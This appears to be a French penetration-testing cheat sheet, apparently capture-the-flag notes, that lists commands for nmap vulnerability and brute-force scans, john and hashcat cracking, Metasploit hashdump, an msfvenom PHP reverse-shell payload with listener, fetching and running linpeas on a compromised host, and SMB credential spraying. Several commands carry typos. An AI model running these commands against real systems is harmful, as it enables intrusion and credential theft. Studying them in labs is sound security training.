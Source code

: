## Wordlists

Sur Kali : 
`/usr/share/wordlists/`  
`/usr/share/wordlists/dirbuster/`


## nmap

trouver les vulnérabilités  
`nmap -sC -sV -O 10.10.0.0-255 –script=vuln`


Brute force srv mail  
`nmap -p 143 --script=imap-brute --script-args userbdb=userfilename, passdb=dict.txt ip`k

wordpress
```
find / -name *wordpress*.nse

nmap -p 80 ip --script=http-wordpress-users # trouver les users

nmap -p 80 ip --script=http-wordpress-enum # trouver les plugins installés
```

## john

``john --wordlist=wordlist_file.txt file_to_crack``

```
#file_to_crack

user:hash
user2:hash2

```

jwt en sha256
```
cat > /tmp/hash << EOF
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6MCwiZXhwIjoxNzI4ODA5ODM2fQ.wcMEZhrZRprqy8-a2fC2sbvsWrNUBcj3gpf9epyssck
EOF
john /tmp/hash --format=HMAC-SHA256
```

## hashcat

```
hascat -h | grep MD5

hashcat -m 0 file dict1 dict2 dict3
```

## hydra
brute force web

## Metasploit

```
msfconsole
search {vuln_name} # ex ms17-010

use {n}
set lhost {ip}
set rhost {ip_cible}
options # check of others parameters

run
```

une fois sur l'host meterpreter est lancé, on peut lancer un shell depuis celui ci.

``meterpreter> hashdump`` # récupère les hash de la machine

Sur une machine windows
Nom_Utilisateur:RID:Hash_LM:Hash_NTLM

lors d'un hashdump, on se concentre sur la dernière partie (le hash NTLM) car le hash LM qui le précède est une antiquité inutile et non sécurisée, souvent même pas présente sur les systèmes récents. C'est le hash NTLM qui représente la clé d'accès au compte.


``meterpreter> search -f flag*``

## gobuster
Dir discovery
`gobuster dir -w path/to/wordlist -u url`

## dirb
Dir discovery
`dirb url`

## Kiterunner
Dir discovery

https://github.com/assetnote/kiterunner

## burp
intercepter et modifier des requêtes http
`burpsuite`

## netcat

Ecouter un reverse shell  # peut etre aussi fait avec msfconsole
`nc -nlvp 1234` 

## linpeas

``wget -O url/linpeas.sh``  
Pour l'envoyer sur la machine cible  
`python3 -m http.server 8081`

sur le reverse shell
```
wget -O linpeas.sh http://ip_machine:8081/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh
```

## wpscan
une fois qu'on a des users wordpress  
`wpscan --url url -U wp_user_file -P dic_file -v`


# emlAnalyzer

`emlAnalyzer -i mail_file`  
Extraire une pj
`emlAnalyzer -i mail_file -ea 1`

# zip2jhon

zip protegé par un mdp

```
zip2jhon secret.zip > hashzip
john --wordlist=/isr/share/wordlists/rockyou.txt hashzip
```

`unzip secret.zip`

# ssh2john
Quand une secret key a une passphrase

```
ssh2john id_rsa > hash_ssh
john hash_ssh --wordlist=/usr/share/wordlists/john.lst
```

## nikto
sur un serveur web
`nikto -h ip:port`


# msfvenom
création d'un payload pour reverse shell
`msfvenom -p php/meterpreter/reverse_tcp lhost=ip_host lport=443 -o reverse.php`

puis avec msfconsole
```
msfconsole
use exploit/multi/handler
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lport 443
lport => 443
msf exploit(multi/handler) > set lhost 192.168.1.128
lhost => 192.168.1.128
run
```

## netexec
`nxc smb 10.10.0.0/24 -u creds.txt -p passwords.txt --local-auth`